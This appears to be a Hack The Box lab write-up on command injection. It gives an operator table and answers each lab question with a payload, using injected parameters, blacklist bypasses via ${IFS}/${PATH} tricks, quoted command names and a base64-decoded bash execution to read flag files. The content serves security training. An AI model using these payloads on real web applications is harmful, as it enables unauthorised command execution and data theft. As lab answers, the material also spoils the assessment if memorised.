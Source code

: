 # [HTB] Command Injections
## Command Injection Methods
## To inject an additional command to the intended one, we may use any of the following operators:

##  Injection Operator	Injection Character	URL-Encoded Character	Executed Command

```Semicolon	      ;	       %3b	      Both```

```New Line	        \n	     %0a	      Both```

```Background	      &	      %26	        Both (second output generally shown first)```

```Pipe	            |	      %7c	        Both (only second output is shown)```

```AND	            &&	    %26%26	    Both (only if first succeeds)```

OR	||	%7c%7c	Second (only if first fails)

Sub-Shell	``	%60%60	Both (Linux-only)

Sub-Shell	$()	%24%28%29	Both (Linux-only)

## Other Injection Operators

>**Q. Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?**

```sh
ip=127.0.0.1|ls
```

## Identifying Filters

>**Q. Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application?**

```sh
ip=127.0.0.1%0als
```

## Bypassing Space Filters

>**Q. Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?**

```sh
ip=127.0.0.1%0a{ls,-la}
```

## Bypassing Other Blacklisted Characters

>**Q. Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?**

```sh
ip=127.0.0.1%0a${IFS}ls%09${PATH:0:1}home
```

## Bypassing Blacklisted Commands

>**Q. Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.**


```sh
ip=127.0.0.1%0a${IFS}c"a"t%09${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

## Advanced Command Obfuscation

>**Q. Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1**

```sh
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
```

```sh
ip=127.0.0.1%0abas$@h<<<$(ba$@se6$@4${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

## Skills Assessment

>**Q. What is the content of '/flag.txt'?**

```sh
/index.php?to=&from=51459716.txt%09${PATH}&finish=1&move=1
/index.php?to=&from=51459716.txt%26l's'${IFS}%09${PATH:0:1}&finish=1&move=1
/index.php?to=&from=51459716.txt%26c"a"t${IFS}%09${PATH:0:1}flag.txt&finish=1&move=1
```
